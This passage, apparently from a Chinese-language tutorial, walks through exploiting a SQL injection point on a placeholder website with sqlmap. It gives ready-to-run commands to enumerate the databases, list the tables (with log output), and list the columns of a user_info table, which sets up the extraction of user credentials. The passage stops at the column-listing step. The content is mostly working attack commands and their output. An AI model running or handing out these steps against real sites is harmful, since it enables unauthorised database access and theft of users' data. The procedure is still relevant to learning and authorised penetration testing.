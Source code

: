 ```
Query failed: ERROR: unterminated quoted string at or near “‘’’”
```

0x02 列出 DBMS 数据库
----------------

正如上图你看到的，我找到了一个存在 SQL 注入点的网站。现在我需要列出所有的数据库（有时这也称为枚举列数）。因为我一直在使用 SQLMAP，它会告诉我哪个存在漏洞。

运行下面的命令，参数是你找到的存在注入点的网址：

```shell
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 --dbs
```

我们现在看到两个数据库，其中的 information_schema 是几乎所有 MySQL 数据库默认的标准数据库，所以我们的兴趣主要在 sqldummywebsite 数据库上。

这里的参数：

```
sqlmap：SQLMAP可执行文件的名称，也可使用python sqlmap.py来替代
-u：目标URL
--dbs：枚举DBMS数据库
```

0x03 列出目标数据库的表
--------------

现在我们需要知道在数据库 sqldummywebsite 中都有哪些表，为了弄清这些信息，我们使用下面的命令：

```bash
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite --tables
```

我们发现这个数据有 8 张表：

```
[10:56:20] [INFO] fetching tables for database: 'sqldummywebsite'
[10:56:22] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:56:22] [INFO] the SQL query used returns 8 entries
[10:56:25] [INFO] retrieved: item
[10:56:27] [INFO] retrieved: link
[10:56:30] [INFO] retrieved: other
[10:56:32] [INFO] retrieved: picture
[10:56:34] [INFO] retrieved: picture_tag
[10:56:37] [INFO] retrieved: popular_picture
[10:56:39] [INFO] retrieved: popular_tag
[10:56:42] [INFO] retrieved: user_info


```

0x04 列出指定数据库中的列
---------------

现在我们需要列出数据库 sqldummywebsite 的表 user_info 中的所有的列，使用 SQLMAP 进行这一步会非常简单，运行下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --columns


```
